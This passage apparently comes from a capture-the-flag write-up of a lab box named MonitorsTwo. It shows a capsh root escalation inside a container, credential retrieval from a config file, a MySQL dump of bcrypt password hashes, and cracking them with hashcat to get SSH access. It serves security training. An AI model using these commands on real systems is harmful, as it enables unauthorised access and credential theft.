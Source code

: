 I found info of it and got [GTFOBins](https://gtfobins.github.io/gtfobins/capsh/) bypass:

```shell
capsh --gid=0 --uid=0 --
```

![](Pasted%20image%2020250207180641.png)

> I became root :D

## Pivoting (to the Host machine)

I got database credentials inside `/var/www/html/include/config.php`:

![](Pasted%20image%2020250207181456.png)

So I can now login to the Cacti database with `root:root`:

```shell
mysql -h db -u root -proot cacti -e 'show tables;'

[redacted]
user_auth

mysql -h db -u root -proot cacti -e 'select * from user_auth;'

[redacted]
admin   $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC  
marcus  $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C
```

Seems to be bcrypt encrypted, so I'll use Hashcat to bruteforce the passwords:
- Check [Crack Password Hashes (Sites) 🤡](/notes/crack_password_hashes.md)

```shell
hashcat -m 3200 -a 0 -o cracked.txt hashes.txt /usr/share/wordlists/rockyou.txt

[redacted]
$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C:funkymonkey
```

> Now I've got creds for ssh :D `marcus:funkymonkey`

### User flag

I can ssh the machine and get user flag:

![](Pasted%20image%2020250207182511.png)

## Privilege Escalation

After some enumeration inside the machine I found a long message inside `/var/mail/marcus`:

```txt
From: administrator@monitorstwo.htb
To: all@monitorstwo.htb
Subject: Security Bulletin - Three Vulnerabilities to be Aware Of

Dear all,

We would like to bring to your attention three vulnerabilities that have been recently discovered and should be addressed as soon as possible.

CVE-2021-33033: This vulnerability affects the Linux kernel before 5.11.14 and is related to the CIPSO and CALIPSO refcounting for the DOI definitions. Attackers can exploit this use-after-free issue to write arbitrary values. Please update your kernel to version 5.11.14 or later to address this vulnerability.

```